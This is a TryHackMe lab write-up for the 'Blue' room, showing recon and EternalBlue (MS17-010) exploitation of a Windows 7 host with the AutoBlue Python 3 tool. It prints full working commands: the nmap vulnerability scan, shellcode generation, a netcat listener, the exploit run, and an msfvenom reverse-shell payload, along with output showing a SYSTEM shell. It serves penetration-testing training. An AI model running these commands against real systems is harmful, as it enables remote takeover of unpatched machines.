



# Blue - TryHackMe

> **Kill Chain Summary**:
> Port Scanning (Ports 135, 139, 445) -> Windows 7 SP1 OS Fingerprinting -> Targeted SMB Vulnerability Scanning (`smb-vuln-ms17-010`) -> Non-Metasploit Buffer Overflow Exploitation via AutoBlue (Python 3) -> Shellcode Preparation with `shell_prep.sh` -> Remote Kernel Exploitation -> Direct SYSTEM Shell (`NT AUTHORITY\SYSTEM`).

| Property | Value |
| :--- | :--- |
| **Target Name** | Blue |
| **Platform** | TryHackMe |
| **OS** | Windows 7 Professional SP1 |
| **Difficulty** | Easy |
| **Status** | Rooted |
| **Key Techniques** | SMB OS Fingerprinting, MS17-010 (EternalBlue) Vulnerability Scanning, Non-Metasploit Exploitation (AutoBlue-MS17-010) |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning

A full TCP port scan was performed using Nmap:

```bash
sudo nmap -sC -sV -p- -T4 -oA nmap/full_tcp_10.128.164.164 10.128.164.164
```




**Identified Ports:**
- **Port 135:** Microsoft RPC
- **Port 139 / 445:** Microsoft-DS (SMB over TCP)
- **OS Fingerprint:** **Windows 7 Professional SP1 (Build 7601)**

### 1.2 Share Enumeration and Architecture Analysis

Standard share enumeration tools (`smbclient`, `enum4linux`) showed that guest and anonymous logins were disabled.

However, the operating system signature (`Windows 7 SP1` / `Windows Server 2008 R2`) paired with an open SMB port (445) strongly indicates vulnerability to remote kernel pool corruption exploits, specifically **MS17-010 (EternalBlue)**.

---

## 2. Initial Access

### 2.1 SMB Vulnerability Scanning

Running Nmap's dedicated SMB vulnerability scripts confirms the presence of MS17-010:

```bash
nmap --script smb-vuln-ms17-010 -p 445 10.128.164.164
```

```text
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|       servers (ms17-010).
```

> [!NOTE] Concept: MS17-010 (EternalBlue / CVE-2017-0143)
> EternalBlue exploits a flaw in Microsoft's SMBv1 implementation where `Srv!SrvOs2FeaToNt` allocates a small buffer for OS/2 Extended Attributes (FEA) but copies NT-sized FEA records into it, causing a mathematical integer overflow and subsequent kernel pool buffer overflow. Because this occurs at the kernel level inside `srv.sys`, exploitation immediately confers `NT AUTHORITY\SYSTEM` access.

### 2.2 Non-Metasploit Exploitation via AutoBlue-MS17-010 (Python 3)

In OSCP preparation, avoiding Metasploit and mastering standalone Python exploits is essential.

#### Legacy Exploit Incompatibilities

Initial attempts using legacy Python 2 scripts failed due to deprecated libraries (`impacket` Python 2 dependencies on modern Kali Linux installations):



#### Exploitation via AutoBlue-MS17-010 (Python 3)

The modern, reliable approach uses the Python 3 implementation of AutoBlue:

##### Step 1: Clone the Repository
```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010
pip3 install -r requirements.txt
```

##### Step 2: Generate Shellcode
Run the interactive shell preparation script:

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
```

- Enter LHOST (Kali IP, e.g., `10.10.14.5`)
- Enter LPORT (e.g., `443`)
- Choose regular `cmd` shell
- Choose stageless payload

This compiles binary shellcode for both x86 and x64 targets (`sc_x64.bin`, `sc_x86.bin`).

##### Step 3: Setup Listener
```bash
sudo nc -lvnp 443
```

##### Step 4: Execute the Exploit
Return to the root exploit directory and run the target exploit against the host:

```bash
cd ..
python3 eternalblue_exploit7.py 10.128.164.164 shellcode/sc_x64.bin
```

```text
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate paged pool: SUCCESS
SMB1 connection reset: SUCCESS
grooming paged pool...
built transaction request
sending transaction request...
overflow complete...
```

The payload executes in the Windows kernel and spawns a reverse command shell:

```text
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.128.164.164] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Retrieve the system flags:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

```text
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

Because EternalBlue (MS17-010 / CVE-2017-0143) exploits a kernel pool buffer overflow inside the SMBv1 driver (`srv.sys`), code execution occurs directly within Ring 0 (Windows kernel space). The reverse shell automatically inherits full `NT AUTHORITY\SYSTEM` privileges upon callback. No secondary privilege escalation was required.

---

## 4. Useful Commands Summary

```bash
# Detect EternalBlue Vulnerability
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

# AutoBlue Non-Metasploit Setup
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/shellcode && ./shell_prep.sh
cd .. && python3 eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin

# Manual Shellcode Compilation with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=443 -f raw -o sc_x64.bin
```

---

## 5. Key Takeaways and Lessons Learned

1. **Target Architecture Correlation:** When Nmap reveals a legacy Windows OS (Windows 7 / Server 2008 R2) with SMB exposed, immediately prioritize checking for MS17-010 rather than losing time on dead-end share enumeration.
2. **Modern Exploit Tooling:** Older public exploits written in Python 2 frequently break due to deprecation of underlying cryptography and network libraries. Always maintain verified Python 3 exploit frameworks (such as AutoBlue) in your toolkit.
3. **Exploit Reliability:** EternalBlue targets kernel pool memory. If the initial packet groom does not trigger the callback, allow the host a minute to stabilize or re-run the exploit before resetting the target.

---

#tryhackme #windows #easy #smb #ms17-010 #eternalblue #autoblue #cve-2017-0143 #kernel #system
